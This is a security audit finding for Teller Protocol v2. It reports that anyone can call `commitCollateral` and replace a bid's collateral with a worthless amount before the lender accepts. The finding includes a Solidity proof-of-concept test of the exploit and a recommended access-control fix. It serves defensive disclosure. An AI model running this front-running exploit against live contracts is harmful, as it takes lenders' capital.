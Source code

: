 PawelK

high

# Malicious update of bid with `commitCollateral` function

## Summary

The borrower (or any other user), can change the collateral amount without changing the bid, which results in losing capital for the lender. 


## Vulnerability Detail

Collateral is transferred to escrow when lender accepts the bid. Deposit happens in [`_deposit`](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L189) function  and it uses `collateral.collateralInfo` to get the info what collateral it should transfer.
The problem is that `colletaralInfo` can be set to any value by anyone with the [`commitCollateral`](https://github.com/teller-protocol/teller-protocol-v2/blob/cb66c9e348cdf1fd6d9b0416a49d663f5b6a693c/packages/contracts/contracts/CollateralManager.sol#L117). 
This allows the borrower (or anyone) to frontrun the `acceptBid` function, and set collateral to some worthless asset or/and value. It can even not be a frontrun function, because changing `colletaralInfo` via `commitCollateral`  doesn't change `bid` inside  `TellerV2.sol`, so the lender can simply not see that.
We can easily imagine that someone takes 10 mln DAI loan giving 1 wei ETH collateral in exchange.

## Impact

Lost capital by lender.

## Code Snippet
Test inside the `TellerV2_Test.sol`, 

1. Borrower submits bid for 10 WETH
2. Borrower commits collateral for 1 WETH
3. Lender accepts bid thinking that he will get 10 WETH as collateral

```solidity
function test_maliciousUpdateOfCommitCollateral() public {
        assertEq(wethMock.balanceOf(address(borrower)), 50000, "borrower balance WETH before loan");
        assertEq(daiMock.balanceOf(address(borrower)), 50000, "borrower balance DAI before loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH before loan");
        assertEq(daiMock.balanceOf(address(lender)), 500000, "lender balance DAI before loan");


        // Submit bid as borrower
        uint256 bidId = submitCollateralBid();

        (,,,address principalTokenAddress, uint256 principalAmount,,) = tellerV2.getLoanSummary(bidId);

        assertEq(address(daiMock), principalTokenAddress, "principalAmount");
        assertEq(principalAmount, 100, "principalAmount");

        Collateral[] memory collateralInfo = new Collateral[](1);
        collateralInfo[0] = Collateral({
            _amount: 1,
            _tokenId: 0,
            _collateralType: CollateralType.ERC20,
            _collateralAddress: address(wethMock)
        });


        collateralManager.commitCollateral(bidId, collateralInfo); // frontrun the acceptBid

        (,,,address principalTokenAddressAfterCommitChange, uint256 principalAmountAfterCommitChange,,) = tellerV2.getLoanSummary(bidId);

        assertEq(address(daiMock), principalTokenAddressAfterCommitChange, "principalAmount");
        assertEq(principalAmountAfterCommitChange, 100, "principalAmount"); // amount was not updated even though commitCollateral was called

        // Accept bid as lender
        acceptBid(bidId);

        assertEq(wethMock.balanceOf(address(borrower)), 49999, "borrower balance WETH after loan"); // should be 49990 if protocol would work correctly, but only 1 wei was transfered to escrow
        assertEq(daiMock.balanceOf(address(borrower)), 50095, "borrower balance DAI after loan");
        assertEq(wethMock.balanceOf(address(lender)), 500000, "lender balance WETH after loan");
        assertEq(daiMock.balanceOf(address(lender)), 499900, "lender balance DAI after loan");

    }

```
## Tool used

Manual Review

## Recommendation

Add the onlyTellerV2  modifier for `commitCollateral` function in `CollateralManager.sol` so malicious update of the bid won't be possible. 
The downside is that `submitBid` without collateral won't be possible, so every `bid` would be a non-changeable (or cancellable) offer for the lender. If you would like to keep changeable nature of the `bid` then probably you would have to introduce some kind of timelock for changing `bid`.
